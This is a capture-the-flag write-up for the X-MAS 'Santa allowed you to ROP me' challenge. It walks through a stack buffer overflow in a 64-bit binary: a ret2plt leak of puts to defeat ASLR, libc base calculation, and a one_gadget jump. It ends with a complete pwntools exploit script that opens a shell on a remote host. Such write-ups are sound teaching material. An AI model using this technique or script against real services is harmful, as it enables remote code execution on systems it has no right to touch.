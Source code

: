 ## exploit

In this challenge we have to exploit ELF 64 bit not stripped that seems to let an attacker perform ROP attack:
```
This is easier than you would think...
Santa allowed you to ROP me!
ssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss
Segmentation fault (core dumped)
```
with checksec is quite clear that we can perform classic buffer overflow attack without consider canary:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```
At this point ret2plt seems to be the most simple choice but the programs does not perform any system. The second problem is that NX bit is enabled so I could consider to execute my shellcode only if I could perform an mprotect call and let some section being executable, moreover I didn't know if the remote server has ASLR enable and must place shellcode into `.bss` section. In order to discover that I could print with ret2plt GOT entry for one function called by the program and yet resolved (for istance put) and try to discover that.

```
This is easier than you would think...
Santa allowed you to ROP me!
puts 0x7ff28b205460

This is easier than you would think...
Santa allowed you to ROP me!
puts 0x7fd40dcfb940
```
Unfortunatly ASLR is enabled so the right things to do after that is a chain that:
* leak GOT entry for libc function yet resolved
* discover libc version in order to obtain base address for the right libc version
* using one_gadget and looking for magic gadget offset right to the version of libc discovered

The other problem is that the program perform the gets one time and we waste that to leak GOT entry, so the things we could do is perform a ret2plt to puts function and discover the address resolved, after that jumping at the start of the program in order to perform another buffer overflow and jump to our magic gadget. 

The leak reveal that remote server make use of different libc version, after some attempts the exploit worked perfectly performing jump to right magic gadget for one the version chosen after see the last bytes of puts address:

```python
#!/usr/bin/env python3

from pwn import *

s=remote('199.247.6.180',10005)
print(s.recvuntil('\n'))
print(s.recvuntil('\n'))


s.send("a"*40+"\x7b\x07\x40\x00\x00\x00\x00\x00"+"\x18\x10\x60\x00\x00\x00\x00\x00"+"\x50\x05\x40\x00\x00\x00\x00\x00"+"\x76\x06\x40\x00\x00\x00\x00\x00"*2+"\n")

out=s.recv(6)+b"\x00\x00"
lputs=u64(out)
print("puts "+hex(lputs))
base_addr=lputs-0x06fd60
magic=base_addr+0xea36d
print(s.recvuntil('\n'))
print(s.recvuntil('\n'))
s.send(p64(magic)*8+b"\n")

s.interactive()
```
##### flag: X-MAS{r4nd0m_chr157m45_pr353n75_4r3_50_fun}



